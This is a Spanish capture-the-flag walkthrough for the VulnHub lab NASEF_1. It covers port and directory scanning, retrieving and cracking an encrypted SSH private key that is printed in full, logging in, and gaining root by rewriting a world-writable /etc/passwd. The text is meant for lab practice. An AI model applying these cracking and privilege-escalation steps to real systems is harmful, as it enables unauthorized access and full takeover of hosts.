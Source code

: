 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# NASEF\_1 LOCATING TARGET VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-13 10:05 CEST
Nmap scan report for 192.168.5.134
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8f:ec:55:07:54:78:a4:ee:8e:d7:95:41:62:74:77:8e (RSA)
|   256 7c:67:19:8b:bf:73:b4:7f:82:64:df:d5:7b:ad:34:a4 (ECDSA)
|_  256 a1:e7:61:a1:cc:6b:16:10:1c:71:fa:54:ed:89:fd:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:CE:93:AA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.72 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.134/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecList/Web/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/goodmath.txt         (Status: 200) [Size: 2571]
Progress: 882236 / 882240 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a ese `.txt` veremos lo siguiente...

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6A4D21879E90C5E2F448418E600FE270

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
-----END RSA PRIVATE KEY-----

Here is your key agentr
```

Vemos que es una `id_rsa` por lo que se ve tiene contraseña, por lo que haremos lo siguiente...

```shell
ssh2john id_rsa > sshkey
```

```shell
john --wordlist=<WORDLIST> sshkey
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
reading          (id_rsa)     
1g 0:00:00:00 DONE (2024-07-13 10:15) 2.173g/s 6678p/s 6678c/s 6678C/s kikay..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que la contraseña es `reading` por lo que haremos lo siguiente...

```shell
chmod 600 id_rsa
```

Vemos que en el `.txt` nos dijo un nombre por lo que probaremos con ese nombre `agentr`...

```shell
ssh -i id_rsa agentr@<IP>
```

Metemos la contraseña del `id_rsa` y ya estariamos dentro con el usuario `agentr`...

Leeremos la flag del la `/home`...

> user.txt (flag1)

```
[Arabic]
الإحداثيات الأولى هي 25 درجة شمالا

[English]
The First coordinate is 25.0000° N
```

Si vemos los permisos del siguiente archivo...

```shell
ls -la /etc/passwd
```

Info:

```
-rw-r--rw- 1 root root 1763 Dec 24  2020 /etc/passwd
```

Vemos que podemos escribir, por lo que haremos lo siguiente...

Nos descargaremos la siguiente herramienta creada por mi (@d1se0) en github...

URL = https://github.com/D1se0/passwordGenerator

```shell
python3 passwordGenerator.py -l 3 -e unix_passwd
```

o

```shell
passwordGenerator -l 3 -e unix_passwd
```

Info:

```
 ____                        _  ____                                      
 |  _ \  __ _ ___  ___       | |/ ___|  __ _ _ __ ___   __ _ _ __ _   _ ___ 
 | | | |/ _` / __|/ _ \  _   | | |  _  / _` | '_ ` _ \ / _` | '__| | | / __|
 | |_| | (_| \__ \  __/ | |__| | |_| | (_| | | | | | | (_| | |  | |_| \__ \
 |____/ \__,_|___/\___|  \____/ \____|\__,_|_| |_| |_|\__,_|_|   \__,_|___/
passwordGenerator v1.0
by Diseo (@d1se0) 

Contraseña Generada: v4l

Contraseña codificada (UNIX_PASSWD): $6$rounds=656000$bbwClv8EHMh/evoj$8vAkS.wJphWsDfdteK1sIc8eebShfmUMHhKEQQvmm3N4rEPCC5uzjTVaK2uarnB8/qIQHYtpZ8l/g1ur54VKL1
```

Generara una contraseña aleatoria poniendo el numero de letras que quiere que tenga en mi caso solo 3 para que sea corta y codificarlo en `unix_passwd`, por lo que ese codigo codificado es lo que tenemos que pegar en el `/etc/passwd` de la siguiente manera...

```shell
nano /etc/passwd

#Dntro del nano
root:$6$rounds=656000$bbwClv8EHMh/evoj$8vAkS.wJphWsDfdteK1sIc8eebShfmUMHhKEQQvmm3N4rEPCC5uzjTVaK2uarnB8/qIQHYtpZ8l/g1ur54VKL1:0:0:root:/root:/bin/bash
```

Quedara algo tal que asi, por lo que lo guardamos e intentamos ser `root` poniendo esa contraseña generada en mi caso `v4l`...

```shell
su root
```

Y si metemos la contraseña sin codificar veremos que seremos `root`...

```shell
id
```

Info:

```
uid=0(root) gid=0(root) groups=0(root)
```

Por lo que leeremos la flag...

> root.txt (flag2)

```
[ARABIC]
الإحداثيات الثانية هي 71 درجة غربا


[ENGLISH]
The Second coordinate is 71.0000° W
```
